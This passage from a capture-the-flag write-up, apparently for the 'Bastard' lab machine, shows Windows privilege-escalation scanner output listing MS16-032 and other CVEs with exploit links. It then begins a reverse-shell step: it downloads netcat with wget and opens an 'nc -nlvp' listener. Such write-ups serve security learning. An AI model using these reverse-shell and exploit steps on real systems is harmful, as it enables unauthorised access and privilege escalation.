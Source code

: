 ```zsh
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Not Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Not Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable
```

Before we do our privledge elevation we need a remote shell we can do this with netcat.  

## Reverse Shell Netcat

Initially, we downloaded the netcat executable for the 64-bit architecture.  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4186]
╰─[:)] # wget https://raw.githubusercontent.com/hackingprofessional/Utilidades/master/netcat-win32-1.11.zip
```

Unzip the netcat files so we can upload and run them.  
Setup our netcat listener.  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4186]
╰─[:)] # nc -nlvp 6969
listening on [any] 6969 ...
```
